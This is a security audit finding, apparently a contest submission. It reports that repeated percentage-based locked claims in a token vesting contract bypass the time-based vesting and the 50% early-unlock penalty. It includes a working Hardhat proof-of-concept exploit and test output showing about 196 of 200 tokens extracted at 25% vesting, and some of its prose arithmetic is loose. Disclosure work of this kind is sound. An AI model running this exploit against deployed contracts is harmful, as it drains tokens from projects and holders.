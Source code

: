 Tall Cotton Spider

Medium

# Malicious users can bypass the time-based vesting restrictions and extract most of their tokens early.

### Summary

The vesting contract's percentage-based claim mechanism can be exploited to extract significantly more tokens than should be available during the vesting period. A malicious user can claim more than their total vested token allocation by exploiting the interaction between percentage-based locked token claims and unlocked token claims, due to `claimedAmount `being reset to 0 after each locked claim.

### Root Cause

The vulnerability exists in the interaction between `claimLockedTokenByPercentage`  and `claimUnlockedToken` functions, combined with how `resetAmount` handles `claimedAmount`.
The docs state users should only be able to get 50% of their total allocation [Early Unlock Mechanism](https://docs.symmio.foundation/token-related/tokenomics/vesting-and-early-unlock) when choosing early unlock, forfeiting the other 50%.
However, the implementation proves users can extract almost his total funds through multiple small percentage claims, effectively bypassing the intended 50% penalty on the total amount.( **we can proof it later in POC**).

As we can see in : 
[ claimLockedTokenByPercentage](https://github.com/SYMM-IO/token/blob/1d014156b1d9f0ab3259026127b9220eb2da3292/contracts/vesting/Vesting.sol#L167)

```solidity
// In LibVestingPlan.sol
function resetAmount(VestingPlan storage self, uint256 amount) public returns (VestingPlan storage) {
    self.claimedAmount = 0;  // Key vulnerability - resets claim tracking
    self.amount = amount;
    return self;
}
// In Vesting.sol
function claimLockedTokenByPercentage(address token, uint256 percentage) external whenNotPaused nonReentrant {
    _claimLockedToken(token, msg.sender, (getLockedAmountsForToken(msg.sender, token) * percentage) / 1e18);
}
```
My example should be with 200 token vested , so  the exact values with the 50% penalty through 6 iterations is : 

Starting point:

Total tokens: 200
At 25% vesting: 50 unlocked, 150 locked
Iteration 1:

Unlocked: 50 tokens
45% of 150 locked = 67.5
After 50% penalty: 33.75
Total: 83.75
Iteration 2:

Remaining locked: 82.5
45% of 82.5 = 37.125
After 50% penalty: 18.56
Plus new unlocked amount
Continuing through iterations 3-6, the amounts get smaller each time due to:

Decreasing locked token pool
Consistent 50% penalty on each claim
New unlocked amounts based on updated schedule
This explains why later in the test shows diminishing increases: 117.5 -> 154.6 -> 175.0 -> 186.2 -> 192.4 -> 195.8

The penalty effectively slows down token extraction, but users can still access more tokens than intended at 25% vesting through repeated interactions. 
```solidity
Initial unlocked: 50 tokens
Iteration 1: 117.5 tokens (+67.5)
Iteration 2: 154.6 tokens (+37.1)
Iteration 3: 175.0 tokens (+20.4)
Iteration 4: 186.2 tokens (+11.2)
Iteration 5: 192.4 tokens (+6.2)
Iteration 6: 195.8 tokens (+3.4)
```

### Impact

The real impact is bypassing the time-based vesting restrictions .Thus  Users can front-run their vesting schedule and extract most of their tokens early, ( **even with the 50% penalty in place**.) undermining the core purpose of the vesting contract.

### PoC

```typescript
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { expect } from "chai";
import { ethers } from "hardhat";
import { time } from "@nomicfoundation/hardhat-network-helpers";
import { e } from "../utils";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { Vesting, Symmio } from "../typechain-types";

describe("CRITICAL: Vesting Percentage Claim Exploit", function() {
    let vesting: Vesting;
    let symmToken: Symmio;
    let admin: SignerWithAddress;
    let user1: SignerWithAddress;

    beforeEach(async () => {
        [admin, user1] = await ethers.getSigners();
        
        const VestingPlanOps = await ethers.getContractFactory("VestingPlanOps");
        const vestingPlanOps = await VestingPlanOps.deploy();
        
        const VestingFactory = await ethers.getContractFactory("Vesting", {
            libraries: {
                VestingPlanOps: await vestingPlanOps.getAddress()
            }
        });
        
        const SymmioFactory = await ethers.getContractFactory("Symmio");
        
        symmToken = await SymmioFactory.deploy(
            "SYMMIO", 
            "SYMM",
            admin.address
        );
        
        vesting = await VestingFactory.deploy();
        
        await vesting.__vesting_init(
            admin.address,
            e("0.5"), // 50% penalty
            user1.address 
        );
        
        await symmToken.grantRole(await symmToken.MINTER_ROLE(), admin.address);
    });

    it("EXPLOIT: claims far more than unlocked amount at 25% vesting", async function() {
        const amount = e("200");
        const startTime = await time.latest();
        const endTime = startTime + (100 * 24 * 3600);
        
        await symmToken.connect(admin).mint(await vesting.getAddress(), amount);
        await vesting.setupVestingPlans(
            await symmToken.getAddress(),
            startTime,
            endTime,
            [await user1.getAddress()],
            [amount]
        );

        await time.increase(25 * 24 * 3600);
        
        const initialBalance = await symmToken.balanceOf(await user1.getAddress());
        console.log("\nInitial balance:", ethers.formatEther(initialBalance));
        
        const unlockedAmount = await vesting.getUnlockedAmountForToken(await user1.getAddress(), await symmToken.getAddress());
        console.log("Actually unlocked amount:", ethers.formatEther(unlockedAmount));

        const percentage = e("0.45");
        
        for(let i = 0; i < 6; i++) {
            await vesting.connect(user1).claimLockedTokenByPercentage(
                await symmToken.getAddress(),
                percentage
            );
            await vesting.connect(user1).claimUnlockedToken(await symmToken.getAddress());
            
            const currentBalance = await symmToken.balanceOf(await user1.getAddress());
            console.log(`Balance after iteration ${i+1}: ${ethers.formatEther(currentBalance)} tokens`);
        }

        const finalBalance = await symmToken.balanceOf(await user1.getAddress());
        const totalClaimed = finalBalance - initialBalance;
        
        console.log("\nTotal claimed:", ethers.formatEther(totalClaimed));
        console.log("Should only have access to ~50 tokens at this point");

        expect(totalClaimed).to.be.gt(e("50"));
    });
});
```
Test output : 

```typescript
 CRITICAL: Vesting Percentage Claim Exploit

Initial balance: 0.0
Actually unlocked amount: 50.000046296296296296
Balance after iteration 1: 117.500050925925925925 tokens
Balance after iteration 2: 154.625042013888888887 tokens
Balance after iteration 3: 175.043780810185185184 tokens
Balance after iteration 4: 186.274083682002314813 tokens
Balance after iteration 5: 192.450748355121527775 tokens
Balance after iteration 6: 195.847912876827980322 tokens

Total claimed: 195.847912876827980322
Should only have access to ~50 tokens at this point
    ✔ EXPLOIT: claims far more than unlocked amount at 25% vesting

·---------------------------------------------|---------------------------|-------------|-----------------------------·
|            Solc version: 0.8.27             ·  Optimizer enabled: true  ·  Runs: 200  ·  Block limit: 30000000 gas  │
··············································|···························|·············|······························
|  Methods                                                                                                            │
·············|································|·············|·············|·············|···············|··············
|  Contract  ·  Method                        ·  Min        ·  Max        ·  Avg        ·  # calls      ·  usd (avg)  │
·············|································|·············|·············|·············|···············|··············
|  Symmio    ·  grantRole                     ·          -  ·          -  ·     118284  ·            1  ·          -  │
·············|································|·············|·············|·············|···············|··············
|  Symmio    ·  mint                          ·          -  ·          -  ·      70399  ·            1  ·          -  │
·············|································|·············|·············|·············|···············|··············
|  Vesting   ·  __vesting_init                ·          -  ·          -  ·     573399  ·            1  ·          -  │
·············|································|·············|·············|·············|···············|··············
|  Vesting   ·  claimLockedTokenByPercentage  ·      89921  ·     109021  ·      93104  ·            6  ·          -  │
·············|································|·············|·············|·············|···············|··············
|  Vesting   ·  claimUnlockedToken            ·          -  ·          -  ·      82836  ·            6  ·          -  │
·············|································|·············|·············|·············|···············|··············
|  Vesting   ·  setupVestingPlans             ·          -  ·          -  ·     128222  ·            1  ·          -  │
·············|································|·············|·············|·············|···············|··············
|  Deployments                                ·                                         ·  % of limit   ·             │
··············································|·············|·············|·············|···············|··············
|  Symmio                                     ·          -  ·          -  ·    1114724  ·        3.7 %  ·          -  │
··············································|·············|·············|·············|···············|··············
|  Vesting                                    ·          -  ·          -  ·    2232789  ·        7.4 %  ·          -  │
··············································|·············|·············|·············|···············|··············
|  VestingPlanOps                             ·          -  ·          -  ·     277449  ·        0.9 %  ·          -  │
·---------------------------------------------|-------------|-------------|-------------|---------------|-------------·

  1 passing (2s)
```
as we can see : 

At 25% vesting (50 tokens unlocked)
Through multiple percentage claims, user extracts 195+ tokens
This is +3.5x more than should be available at this point

### Mitigation

_No response_